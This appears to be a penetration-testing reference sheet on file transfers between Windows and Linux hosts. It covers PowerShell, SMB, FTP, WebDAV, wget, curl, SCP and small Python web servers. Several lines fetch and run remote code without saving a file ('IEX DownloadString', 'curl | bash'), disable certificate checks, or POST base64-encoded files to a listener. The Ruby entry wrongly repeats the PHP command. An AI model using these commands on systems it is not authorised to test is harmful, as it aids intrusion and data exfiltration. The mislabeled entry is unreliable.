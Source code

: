 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
<summary><h1>🪟 Windows</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PowerShell Downloads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h4>PowerShell DownloadFile Method</h4></summary>

**Sync (Wait for the download to finish)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFile('<FILE URL>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFile('<FILE URL>', 'C:\Users\Public\<FILE>')
```

**Async (Keep using Powershell while downloading)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFileAsync('<FILE URL>', 'C:\Users\Public\<FILE>')
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell DownloadString - Fileless Method</h4></summary>

Default  
```powershell
IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
```

Pipeline input  
```powershell
(New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell Invoke-WebRequest</h4></summary>

Default  
```powershell
Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
```

ByPass Internet Explorer Error  
```powershell
Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
```

ByPass SSL/TLS Error  
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SMB Downloads</h3></summary>

**Prepare the server on Linux**

Create a temporary SMB Share and place your target file in it
```bash
mkdir /tmp/smbshare
cd /tmp/smbshare
mv <FILE> .
chmod 644 <FILE>
sudo impacket-smbserver share -smb2support .
```

**Download files on Windows**

**Option 1:** Download a single file
```cmd
copy \\<IP>\share\<FILE>
```

**Option 2:** Mount the share
```cmd
net use n: \\<IP>\share /persistent:no
```

**Using credentials**

Create the SMB Server in Linux
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
```
Mount the share
```cmd
net use n: \\<IP>\share /user:<USER> <PASSWORD>
```
Download the file
```cmd
copy n:\<FILE>
```
Umount the share
```cmd
net use n: /delete /y
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Downloads</h3></summary>  

Setting up a Python3 FTP Server in Linux
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --user ftpuser --password 'ftppass'
```

**Option 1: Download file using Powershell**
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('ftpuser', 'ftppass')}).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Option 2: Download file using CMD**  
```cmd
(
  echo open <IP>
  echo user ftpuser ftppass
  echo binary
  echo get <FILE>
  echo bye
) > ftpcommand.txt
ftp -i -v -n -s:ftpcommand.txt
```
---

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Uploads</h2></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h3>PowerShell Uploads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Encode & Decode</h4></summary>  

1. Encode File Using PowerShell 
```powershell
# 1. Convert File to Base64
[Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))

# 2. Computes the MD5 checksum of a file to verify its integrity.
Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

2. Decode Base64 String in Linux
```bash
# 1. Save the base64 string to a file
echo "<BASE64STRING>" > encoded.b64

# 2. Decode the base64 to recreate the original file
base64 -d encoded.b64 > decoded.txt

# 3. Verify the MD5 hash matches the Windows version
md5sum decoded.txt
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Web Uploads</h4></summary>  

1. Installing a Configured WebServer with Upload in Linux
```bash
pip3 install uploadserver
python3 -m uploadserver
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Web Upload</h4></summary>  

1. We use Netcat to listen in on a port we specify and send the file as a POST request.
```bash
nc -lvnp <PORT>
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
```
3. We copy the output and use the base64 decode function to convert the base64 string into a file.
```bash
echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>SMB Uploads</h3></summary>  

1. Installing WebDav Python modules in Linux
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
```
2. Uploading Files using SMB in Windows
```cmd
# DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
dir \\192.168.49.128\DavWWWRoot
copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
copy <FILE PATH> \\<IP>\sharefolder\
```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>FTP Uploads</h3></summary>  

**1. Start our FTP Server in Linux**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
**2. Upload the file in Windows**

Option 1: Upload file using Powershell
```cmd
(New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
```
Option 2: Create a Command File for the FTP Client to Upload a File
Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT <FILE PATH> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
Once in FTP...
```cmd
USER anonymous
PUT <FILE PATH>
bye
```
</details>
</details>
</details>

---

<details>
<summary><h1>🐧 Linux</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Base64 Encoding / Decoding</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 
  
**Check File MD5 hash**  
```bash
md5sum <FILE>
```

**Encode file to Base64**  
```bash
# We copy this content and paste it onto our Linux target machine
cat <FILE> |base64 -w 0;echo
```

**Decode the File**  
```bash
echo -n '<BASE64STRING>' | base64 -d > <OUTPUTFILE>
```

**Confirm the MD5 Hashes Match**  
```bash
md5sum <FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Wget Downloads</h3></summary>  

**Basic Download**  
```bash
wget <FILE URL>
```

**Download with Custom Filename**  
```bash
wget -O <OUTPUT FILE> <FILE URL>
```

**Download with Authentication**  
```bash
wget --user=<USER> --password=<PASSWORD> <FILE URL>
```

**Fileless Download**  
```bash
# Executes it directly
wget -qO- <FILE URL> | python3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Curl Downloads</h3></summary>

**Basic Download**  
```bash
curl -O http://<IP>:<PORT>/<FILE>
```

**Ignore SSL certificate**  
```bash
curl -k -O https://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
curl -o <OUTPUT FILE> <FILE URL>
```

**Download with Authentication**  
```bash
curl -u <USER>:<PASSWORD> -O http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
curl http://<IP>:<PORT>/<FILE> | bash
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Download with Bash</h3></summary>

**Connect to the Target Webserver**  
```bash
exec 3<>/dev/tcp/<IP>/<PORT>
```

**HTTP GET Request**  
```bash
echo -e "GET /<FILE> HTTP/1.1\n\n">&3
```

**Print the Response**  
```bash
cat <&3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SSH Downloads</h3></summary>

**Source Machine: Starting the SSH Server**  
```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

**Source Machine: Checking for SSH Listening Port**  
```bash
#0.0.0.0:22
netstat -lnpt
```

**Destination Machine: Downloading Files Using SCP**  
```bash
scp user@remote_ip:/remote/path/<FILE> /local/path/
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Web Upload</h3></summary>

**Source Machine: Start Web Server**  
```bash
sudo python3 -m pip install --user uploadserver
```

**Source Machine: Create a Self-Signed Certificate**  
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Source Machine: Prepare the files**  
```bash
mkdir https && cd https
mv ~/<FILE> .
```

> **_NOTE:_**  The webserver should not host the certificate. Create a new directory to host the file for the webserver.

**Source Machine: Start Web Server**  
```bash
sudo python3 -m uploadserver --server-certificate ~/server.pem 443
```

> **Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SCP Uploads</h3></summary>  
  
**Upload to Remote Server**  
```bash
scp <FILE> <USER>@<IP>:/remote/path/
```

**Upload with Custom Port**  
```bash
scp -P <PORT> <FILE> <USER>@<IP>:/remote/path/
```

**Upload with Key Authentication**  
```bash
scp -i <KEY FILE> <FILE> <USER>@<IP>:/remote/path/
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Using FTP Command**  
```bash
ftp <IP>
# Once connected:

put <FILE>
```

**Source Machine: Using lftp**  
```bash
lftp -u <USER>,<PASSWORD> <IP>

# Once connected:
put <FILE>
```

</details>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Alternative Web File Transfer Method</h3></summary>
A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server.

**Source Machine: Creating a Web Server with Python3**  
```bash
python3 -m http.server 8000
```

**Source Machine: Creating a Web Server with Python2.7**  
```bash
python2.7 -m SimpleHTTPServer 8000
```

**Source Machine: Creating a Web Server with PHP**  
```bash
php -S 0.0.0.0:8000
```

**Source Machine: Creating a Web Server with Ruby**  
```bash
php -S 0.0.0.0:8000
```

</details>
</details>
</details>

---

